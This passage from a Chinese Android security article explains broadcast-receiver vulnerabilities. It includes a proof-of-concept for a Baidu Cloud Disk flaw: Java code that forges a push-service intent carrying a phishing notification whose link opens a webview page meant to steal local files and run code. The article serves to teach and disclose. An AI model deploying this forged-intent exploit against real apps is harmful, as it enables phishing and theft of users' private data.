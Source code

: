 ```

    public void onReceive(Context paramContext, Intent paramIntent) {
      if (TextUtils.equals(paramIntent.getAction(), "account"))
      doLog(paramContext, paramIntent);
     }

} 
```

## 0x04 案例

### 案例1：伪造消息代码执行

百度云盘有一个广播接收器没有对消息进行安全验证，通过发送恶意的消息，攻击者可以在用户手机通知栏上推送任意消息，点击消息后可以利用webview组件盗取本地隐私文件和执行任意代码。

```
Intent i = new Intent();

i.setAction("com.baidu.android.pushservice.action.MESSAGE");

Bundle b = new Bundle();

try
{

    JSONObject jsobject = new JSONObject();

    //1\. phishing

    JSONObject custom_content_js = new JSONObject();

    jsobject.put("title", "a big surprise!!!");

    jsobject.put("description", "");

    //jsobject.put("url", "http://bcscdn.baidu.com/netdisk/BaiduYun_5.1.0.apk");

    jsobject.put("url", "http://drops.wooyun.org/webview.html");

    JSONObject customcontent_js = new JSONObject();

    customcontent_js.put("type", "1");

    customcontent_js.put("msg_type", "resources_push");

    customcontent_js.put("uk", "1");

    customcontent_js.put("shareId", "1");

    jsobject.put("custom_content", customcontent_js);

    String cmd  = jsobject.toString();

    b.putByteArray("message", cmd.getBytes("UTF-8"));

}
catch (Exception e)
{

    // TODO Auto-generated catch block

    e.printStackTrace();
} 
```